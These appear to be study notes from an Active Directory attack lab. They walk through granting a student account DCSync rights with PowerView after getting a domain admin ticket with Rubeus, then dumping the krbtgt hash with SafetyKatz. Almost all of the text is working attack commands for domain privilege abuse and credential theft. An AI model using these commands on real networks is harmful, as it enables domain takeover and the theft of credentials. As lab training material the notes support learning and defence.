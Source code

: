 *Check if studentx has Replication (DCSync) rights.*
We can check with this command
```powershell
. C:\AD\Tools\PowerView.ps1
```
```powerview
Get-DomainObjectAcl -SearchBase "DC=dollarcorp,DC=moneycorp,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "<NOME UTENTE>"}
```
It doesn't return nothing, so we don't have priviledge
*add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user*
Create a session with a domain admin
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:<DOMAIN ADMIN> /aes256:<< /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Run invishell and import powerview
```cmd
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
. C:\AD\Tools\PowerView.ps1
```
add the permission to student115 
```powerview
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student115 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
![[Pasted image 20231025125006.png]]
Let's check if now we have the permissions (use the previous command)
![[Pasted image 20231025125252.png]]
*execute the DCSync attack to pull hashes of the krbtgt user*
Now use safetykatz to extract the hash of any user
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
![[Pasted image 20231025125418.png]]